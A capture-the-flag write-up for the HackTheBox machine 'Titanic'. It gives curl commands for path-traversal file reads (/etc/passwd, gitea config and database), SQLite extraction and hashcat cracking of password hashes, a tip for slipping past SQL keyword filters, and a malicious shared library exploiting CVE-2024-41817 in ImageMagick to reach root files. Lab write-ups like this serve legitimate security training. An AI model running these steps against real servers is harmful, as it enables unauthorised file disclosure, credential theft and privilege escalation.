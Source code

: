 
2025-03-19 22:57

Source: #htb #Boot2root 

rustscan shows port 80 and 22

add to `etc/hosts` 
```sh
echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts
```
### Enumeration

The website only has one button that is interactable i.e. validate trip. When we validate a trip, we download the ticket 

The request when captured on burp looks like 
```
GET /download?ticket=random-int.json HTTP/1.1
```
since the ticket reading functionality is not implemented securely, [[LFI]] we can replace the name of the ticket file with the one we want to read. For example `/etc/passwd` 

- we see a user named developer
- we can directly read the `user.txt` flag by replacing ticket parameters value to `/home/developer/user.txt`

since ssh key files aren't readable we read the `etc/hosts` and see a subdomain  - `dev.titanic.htb` - 
after adding this to our `etc/hosts` file and visiting the website we see This subdomain has `gitea` on it

browsing around in `gitea` we see an explore tab, it has 2 repos 
From the `docker-compose.yml` file we find out the path to the `gitea` directory

Searching on the web we find that the default config files of `gitea` are stored in `config/app.ini`

Pull out the default config via LFI

```sh
curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini'
```

From the configure we find out the path to the database
```sh
curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

> [!tip]
> If in a CTF using UNION or SELECT is blocked then try using a different case for those words eg. Union Select.

Open `gitea.db` in SQLite: 
```
sqlite3 gitea.db  
sqlite> .tables  
sqlite> SELECT lower_name, passwd, salt FROM user;
```
****
We retrieve a hashed password (and salt) for the `developer` user.

The hash can’t be directly cracked by [[Hashcat]],  convert it manually or use [gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py) script to format it:

```sh
hashcat -m 10900 gitea_hash.txt rockyou.txt
```
### Privesc

[[find]] directories w write perms
```sh
find /opt -writable -type d 2>/dev/null
```

A quick `sudo -l` check reveals no direct sudo privileges. Exploring `/opt`, we find a `scripts` folder containing `identify_images.sh`. Inspecting the file, we see it calls ImageMagick’s `identify` command on uploaded images.

find path to magick and version using 
```
$ which magick
/usr/bin/magick

$ /usr/bin/magick --version
Version: ImageMagick 7.1.1-35
```

There is a matching CVE-2024-41817 under this version that allows arbitrary code execution by loading malicious shared libraries into the current working directory when running `ImageMagick`: [Github](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

From identify_images.sh we know that the directory we need is /opt/app/static/assets/images/. Let’s create a library that will copy the /root/root.txt file and change its permissions:

```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

After a few seconds, a flag will appear in the directory
### References
https://app.hackthebox.com/machines/648
https://www.pentestnotes.ru/en/writeups/hackthebox/titanic-htb-writeup/